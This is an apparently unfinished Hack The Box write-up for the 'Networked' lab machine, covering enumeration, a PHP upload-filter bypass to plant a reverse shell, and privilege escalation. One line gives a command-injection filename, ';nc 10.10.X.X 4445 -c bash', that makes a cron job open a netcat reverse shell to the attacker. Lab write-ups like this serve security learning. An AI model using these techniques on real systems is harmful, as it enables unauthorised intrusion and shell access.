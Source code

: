 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

*insert vulnerbale php code screenshot*

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

*insert screenshot of modifying request*

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.X.X 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!

*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
